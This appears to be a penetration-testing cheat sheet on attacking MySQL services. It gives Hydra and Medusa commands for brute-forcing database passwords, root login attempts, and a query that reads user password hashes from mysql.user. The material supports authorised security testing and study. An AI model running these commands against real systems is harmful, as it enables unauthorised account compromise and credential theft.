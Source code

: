 
### **Brute Force & Users/Password Spray**

#### **Hydra**
- If the NSE scripts / other enum finds database users, bruteforce password with hydra

|**Syntax  & Commands**|
|---|
|`#sudo hydra -l root -P /usr/share/wordlist mysql://target`|
|![mysql-hydra](./cybersecurity_img/Network_service_enumeration/mysql/mysql-hydra.png)|


#### **Medusa**
|**Syntax & Commands**|
|---|
|`# medusa -h [Target-IP] -u username -P password.txt -t -M mysql`|
|![mysql-medusa](./cybersecurity_img/Network_service_enumeration/mysql/mysql-medusa.png)|


### **Discovery**

| **Discovery**                             | **Command**                                              |
|-------------------------------------------|----------------------------------------------------------|
| **Try Connection from Outside**           | `mysql --host <IP> -u root -p root`                      |
| **Connection from the Target Machine**    | `mysql -u root -p root database`                          |
| **Classical Commands**                    |                                                          |
| Show existing databases                   | `show databases;`                                        |
| Use a specific database                   | `use database_name;`                                     |
| Show tables in the current database       | `show tables;`                                           |
| Describe the structure of a table         | `describe table_name;`                                   |
| View user details in MySQL                | `select host, user, password from mysql.user;`           |
| **Local Access / Remote Access**          |                                                          |